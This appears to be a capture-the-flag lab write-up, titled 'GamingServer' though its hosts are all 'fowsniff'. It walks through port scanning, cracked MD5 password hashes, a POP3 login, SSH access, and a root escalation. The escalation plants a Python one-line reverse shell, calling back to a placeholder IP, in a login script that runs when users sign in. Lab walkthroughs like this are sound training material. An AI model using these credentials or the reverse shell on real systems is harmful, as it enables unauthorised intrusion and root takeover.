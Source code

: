 # GamingServer Write-Up

## Initial Enumeration

The only initial information provided is an IP address. We begin by conducting an Nmap scan to identify open ports and services:

```bash
nmap -sC -sV -v {ip_address}
```

### Scan Results:
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)

80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))

110/tcp open  pop3    Dovecot pop3d

143/tcp open  imap    Dovecot imapd

## Web Enumeration

Navigating to the webpage hosted on port 80, there is a website under out of service, due to an attack. The important information is a the corporate twitter account which also got hacked

Going to twitter gives us a webpage that is a dump of usernames, hashes with the MD5 hashing algorithm and that POP3 is incredibly weak. Running the hashes through hashcracker gives the following credentials.

mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4:mailcall
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo101
tegel@fowsniff:1dc352435fecca338acfd4be10984009:apples01
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb:skyler22
seina@fowsniff:90dc16d47114aa13671c697fd506cf26:scoobydoo2
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd *NOT FOUND*
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11:orlando12
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e:07011972

### POP3 logging in

Running through the login credentials we are able to login to pop3 using seina credentials on telnet.


```bash
telnet {ip_address} 110
```

The first email gives the password for SSH.

The second email provides the username to login in with.


## SSH Access

```bash
ssh baksteen@{ip_address}
```

### Exploring the Directory

Given the hints, we find that baksteen belongs to the user group and has access to /opt/cube/cube.sh

Exploring into cube.sh reveals that it prints the fancy welcome screen when we SSH in. By editing the file, upon our login we can execute a command of choice. Using the one line python reverse shell, root access is freely given.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{LOCAL_IP}",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Ending the SSH session and starting a nc listener

```bash
nc -lvnp 8080
```

Connecting back to SSH opens the root shell from the nc listener.

Ending our session we find our flag in root.txt
---
### TODO:
- Linux fundamentals for information gathering should be improved.
